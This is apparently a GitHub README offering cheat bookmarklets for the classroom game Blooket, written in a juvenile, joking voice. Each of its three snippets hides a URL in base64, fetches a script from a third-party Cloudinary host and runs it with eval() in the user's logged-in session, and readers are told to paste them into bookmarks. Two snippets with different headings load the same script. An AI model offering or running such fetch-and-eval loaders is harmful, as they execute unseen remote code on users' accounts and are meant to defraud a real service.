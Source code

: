 # Blooket-hack-after-glixzzy
glixzzy stop making profit off school cheats                                 (made by a student who named jack and hes so cool omg!1 credit to @P1uffy)



# Here are the big juicy hecks collection
these are all useful bookmarklets,paste them into bookmark, make sure javascript: are in the initial.
# add tokens!11! exp also !111
```js
javascript:fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEFkZFRva2Vucy5qcw==')).then((res) => res.text().then((t) => eval(t)))
```
# sell dupe blooks!11111!111!!!!!!!!!
```js
javascript:fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbFNwYW1PcGVuQm94ZXMuanM=')).then((res) => res.text().then((t) => eval(t)))
```
# spam box!11
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbFNwYW1PcGVuQm94ZXMuanM=')).then((res) => res.text().then((t) => eval(t)))
```
# cool
